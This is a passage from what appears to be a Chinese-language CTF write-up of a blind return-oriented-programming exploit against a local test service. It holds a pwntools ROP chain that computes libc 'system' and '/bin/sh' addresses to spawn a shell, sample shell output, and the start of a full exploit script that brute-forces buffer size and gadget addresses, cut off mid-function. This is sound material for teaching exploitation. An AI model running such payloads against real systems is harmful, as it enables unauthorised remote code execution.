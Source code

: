 ```python
offset_puts   = 0x000000000006f210
offset_system = 0x0000000000042010
offset_str_bin_sh = 0x17aff5

system_addr = (puts_addr - offset_puts) + offset_system
binsh_addr  = (puts_addr - offset_puts) + offset_str_bin_sh

# get shell
payload  = "A"*buf_size
payload += p64(gadgets_addr + 9)    # pop rdi; ret;
payload += p64(binsh_addr)
payload += p64(system_addr)
payload += p64(stop_addr)

p = remote('127.0.0.1', 10001)
p.recvline()
p.sendline(payload)
p.interactive()
```
Bingo!!!
```
$ python2 exp.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```


## Exploit
完整的 exp 如下：
```python
from pwn import *

#context.log_level = 'debug'

def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size

def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
```